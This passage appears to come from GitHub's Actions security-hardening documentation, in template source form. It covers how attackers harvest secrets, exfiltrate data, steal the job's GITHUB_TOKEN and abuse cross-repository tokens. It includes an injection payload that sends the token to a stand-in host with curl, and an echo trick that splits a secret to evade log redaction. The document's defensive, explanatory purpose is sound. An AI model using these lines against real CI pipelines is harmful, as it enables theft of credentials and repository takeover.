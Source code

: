   {% raw %}
  ```
  uses: fakeaction/publish@v3
  with:
      key: ${{ secrets.PUBLISH_KEY }}
  ```
  {% endraw %}

Although {% data variables.product.prodname_actions %} scrubs secrets from memory that are not referenced in the workflow (or an included action), the `GITHUB_TOKEN` and any referenced secrets can be harvested by a determined attacker.

### Exfiltrating data from a runner

An attacker can exfiltrate any stolen secrets or other data from the runner. To help prevent accidental secret disclosure, {% data variables.product.prodname_actions %} [automatically redact secrets printed to the log](/actions/security-guides/encrypted-secrets#accessing-your-secrets), but this is not a true security boundary because secrets can be intentionally sent to the log. For example, obfuscated secrets can be exfiltrated using `echo ${SOME_SECRET:0:4}; echo ${SOME_SECRET:4:200};`. In addition, since the attacker may run arbitrary commands, they could use HTTP requests to send secrets or other repository data to an external server.

### Stealing the job's `GITHUB_TOKEN`

It is possible for an attacker to steal a job's `GITHUB_TOKEN`. The {% data variables.product.prodname_actions %} runner automatically receives a generated `GITHUB_TOKEN` with permissions that are limited to just the repository that contains the workflow, and the token expires after the job has completed. Once expired, the token is no longer useful to an attacker. To work around this limitation, they can automate the attack and perform it in fractions of a second by calling an attacker-controlled server with the token, for example: `a"; set +e; curl http://example.com?token=$GITHUB_TOKEN;#`.

### Modifying the contents of a repository

The attacker server can use the {% ifversion fpt or ghec %}{% data variables.product.prodname_dotcom %}{% else %}{% data variables.product.product_name %}{% endif %} API to [modify repository content](/actions/security-guides/automatic-token-authentication#permissions-for-the-github_token), including releases, if the assigned permissions of `GITHUB_TOKEN` [are not restricted](/actions/security-guides/automatic-token-authentication#modifying-the-permissions-for-the-github_token).

## Considering cross-repository access

{% data variables.product.prodname_actions %} is intentionally scoped for a single repository at a time. The `GITHUB_TOKEN` grants the same level of access as a write-access user, because any write-access user can access this token by creating or modifying a workflow file, elevating the permissions of the `GITHUB_TOKEN` if necessary. Users have specific permissions for each repository, so allowing the `GITHUB_TOKEN` for one repository to grant access to another would impact the {% data variables.product.prodname_dotcom %} permission model if not implemented carefully. Similarly, caution must be taken when adding {% data variables.product.prodname_dotcom %} authentication tokens to a workflow, because this can also affect the {% data variables.product.prodname_dotcom %} permission model by inadvertently granting broad access to collaborators.

We have [a plan on the {% data variables.product.prodname_dotcom %} roadmap](https://github.com/github/roadmap/issues/74) to support a flow that allows cross-repository access within {% data variables.product.product_name %}, but this is not yet a supported feature. Currently, the only way to perform privileged cross-repository interactions is to place a {% data variables.product.prodname_dotcom %} authentication token or SSH key as a secret within the workflow. Because many authentication token types do not allow for granular access to specific resources, there is significant risk in using the wrong token type, as it can grant much broader access than intended.
